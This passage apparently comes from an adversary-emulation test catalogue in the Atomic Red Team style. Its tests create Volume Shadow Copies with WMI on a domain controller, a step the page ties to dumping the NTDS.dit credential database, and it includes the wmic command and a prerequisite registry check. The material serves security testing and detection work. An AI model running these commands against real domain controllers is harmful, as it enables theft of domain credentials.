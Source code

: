 ```cmd
echo Sorry, Promoting this machine to a Domain Controller must be done manually
```

<br/>
<br/>

## Atomic Test #4 - Create Volume Shadow Copy with WMI

This test is intended to be run on a domain Controller.

The Active Directory database NTDS.dit may be dumped by copying it from a Volume Shadow Copy.

**Supported Platforms:** Windows

**auto_generated_guid:** 224f7de0-8f0a-4a94-b5d8-989b036c86da

#### Inputs:

| Name         | Description                                                | Type   | Default Value |
| ------------ | ---------------------------------------------------------- | ------ | ------------- |
| drive_letter | Drive letter to source VSC (including colon and backslash) | string | C:&#92;       |

#### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
wmic shadowcopy call create Volume=#{drive_letter}
```

#### Dependencies: Run with `command_prompt`!

##### Description: Target must be a Domain Controller

##### Check Prereq Commands:

```cmd
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\ProductOptions  /v ProductType | findstr LanmanNT
```

##### Get Prereq Commands:

```cmd
echo Sorry, Promoting this machine to a Domain Controller must be done manually
```

<br/>
<br/>

## Atomic Test #5 - Create Volume Shadow Copy remotely with WMI

This test is intended to be run from a remote workstation with domain admin context.
The Active Directory database NTDS.dit may be dumped by copying it from a Volume Shadow Copy.

**Supported Platforms:** Windows
